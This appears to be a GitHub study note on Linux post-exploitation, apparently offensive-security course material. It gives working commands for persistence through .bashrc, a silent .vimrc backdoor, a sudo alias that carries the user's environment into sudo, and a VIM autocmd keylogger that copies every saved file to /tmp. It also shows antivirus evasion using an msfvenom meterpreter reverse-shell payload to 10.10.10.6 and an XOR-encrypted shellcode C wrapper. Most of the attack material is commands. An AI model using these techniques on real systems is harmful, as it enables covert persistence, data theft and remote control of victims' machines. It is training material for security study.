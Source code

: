 ## User Configuration Files

In Linux systems, applications frequently store user-specific configuration files and subdirectories
within a user’s home directory. These configuration files control how applications behave for a specific user and are typically only writable by the users or root.
If we compromise a system under a given user, we can modify those files and change how applications behave for them.

Two common examples are **.bash_profile** and **.bashrc**.
- **.bash_profile** is executed when logging in to the system initially(login to machine, or ssh)
- **.bashrc** is executed when a new terminal window is opened from an existing login session
- **can be useful when trying to maintain persistence or escalate privileges**

Example, append touch command to .bashrc, and spawn a new shell will trigger the command execution
```
linux@linuxvictim:~$ echo "touch /tmp/bashtest.txt" >> ~/.bashrc

linux@linuxvictim:~$ /bin/bash
linux@linuxvictim:~$ ls -al /tmp/bashtest.txt
-rw-rw-r-- 1 linux linux 0 Aug 26 15:20 /tmp/bashtest.txt
```
## Attcking with VIM text editor
#### VIM config file backdoor

On many Linux systems, user-specific VIM configuration settings are located in a user’s home directory in the .vimrc file. The commands specified in the .vimrc file are executed when VIM is launched. we can leverage the VIM plugin directory. As long as the files have a .vim extension, all VIM config files located in the user’s **~/.vim/plugin** directory will be loaded
when VIM is run.

We add one line in the user’s **.vimrc** file to the following, this command will mutes debug output and execute /.vimrunscript script.
```
:silent !source ~/.vimrunscript
```

On a Debian or similar system, if the user runs VIM via sudo, our script being sourced does not persist the user’s shell environment
information when moving to a sudo context. We can add an alias to the user’s .bashrc file. source command makes alias changes to go into effect right away.

```
alias sudo="sudo -E"

linux@linuxvictim:~$ source ~/.bashrc
```
#### VIM config keylogger
We can use **:autocmd** in a VIM configuration file or in the editor to set actions for a collection of predefined events. All detials commands can be found at [Vim documentation: autocmd](http://vimdoc.sourceforge.net/htmldoc/autocmd.html)

Now we can set up an autocommand that fires on the BufWritePost action and then writes the content of the file to a log file we specify. We will put our command in
```/home/linux/.vim/plugin/settings.vim```

```
:autocmd BufWritePost * :silent :w! >> /tmp/hackedfromvim.txt
```
**BufWritePost** us the event, meaning that after a buffer is written to a file, we will perform our action. “*” specifies this action will be performed for all files being edited. **:w!** save the buffer contents, **!** is a force modifier, it will overwrite an existing file.

VIM supports the use of basic if statements in its configuration scripts
```
:if <some condition>
:<some command>
:else
:<some alternative command>
:endif
```

below example will check if user os running as root

```
:if $USER == "root"
:autocmd BufWritePost * :silent :w! >> /tmp/hackedfromvim.txt
:endif
```

## Bypass AV 

First, let's test our linux scan with [eicar](https://www.eicar.org/?page_id=3950) project. ```sudo kesl-control --scan-file ./eicar.txt```. The the eicar.txt should be removed. Otherwise, the scanner is not working. We can also check the Kaspersky’s event log for detected events ```sudo kesl-control -E --query | grep DetectName```.

#### Bypass with x64/zutto_dekiru encoder
this method bypass Kaspersky scanner, but not all scanners at [Antiscan.me](https://antiscan.me/)

```
sudo msfvenom -p linux/x64/meterpreter/reverse_tcp LPORT=443 LHOST=10.10.10.6 -e x64/zutto_dekiru -f elf -o /tmp/met64zutto.elf
```

#### Bypass with C code wrapper and xor encrytion.

We can use the msfvenom to create c shell code, xor the shell code, wrap the xored shell code in c file, add decrypt function, and compile c file into exe.
- [encoder.c](/08PlayingWithLinux/encoder.c) encrypt shell code and print out encrypted payload
- [CWrapper.c](/08PlayingWithLinux/CWrapper.c) decrypt shell code and run

Compile encoder and run encoder
```
kali@kali:~$ gcc -o encoder.out encoder.c

kali@kali:~$ ./encoder.out
\x20\x73\x12\x45\x4F\x02\xCF\x8A\
```

Compile shellcode wrapper, don't forget to compile the c code in the same architecture as target's
```
kali@kali:~$ gcc -o CWrapper.out CWrapper.c -z execstack
```
